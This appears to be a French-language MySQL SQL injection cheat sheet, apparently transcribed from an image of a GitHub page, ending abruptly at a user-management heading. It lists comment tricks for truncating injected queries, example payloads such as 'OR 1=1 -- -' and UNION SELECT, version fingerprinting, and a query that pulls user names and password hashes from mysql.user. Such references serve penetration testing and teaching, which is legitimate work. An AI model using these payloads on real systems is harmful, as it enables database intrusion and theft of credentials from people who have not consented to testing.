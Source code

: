 Les syntaxes suivantes peuvent être utilisées pour commenter (désactiver) la fin d’une requête à la suite d’une injection :

|     |     |
| --- | --- |
| #   | Hash commentaire |
| /*  | C-style commentaire |
| — – | SQL commentaire |
| ;%00 | Nullbyte,fin de chaîne |
| `   | backtick |

**Exemples :**
SELECT * FROM Table WHERE username = '' OR 1=1 -- -' AND password = '';
SELECT * FROM Table WHERE data = '' UNION SELECT 1, 2, 3`';
**Remarques :**

- Le *backtick* ne peut être utilisé qu’en terminaison d’une requête utilisée comme un alias.

## Test de version MySQL

- VERSION()
- @@VERSION
- @@GLOBAL.VERSION

**Exemples :**

SELECT * FROM Tables WHERE data = '1' AND MID(VERSION(),1,1) = '5'; -- true if MySQL 5

SELECT@@version -- shorter than SELECT VERSION()
**Remarques :**

- La chaîne de caractères correspondante à la version retournée peut contenir « -nt-log » dans le cas d’un déploiement du serveur SQL sous un environnement Windows.
- Ces mots-clés et fonctions ne sont pas sensibles à la casse.

## Crédentiels de la base de données

- Table (privilèges root requis) : mysql.user
- Colonnes : user, password
- Utilisateur courant : user(), current_user(), current_user, system_user(), session_user()

**Exemples :**
SELECT current_user;

SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)

**Remarques :**

- Mots-clés et fonctions insensibles à la casse.

## Gestion des utilisateurs
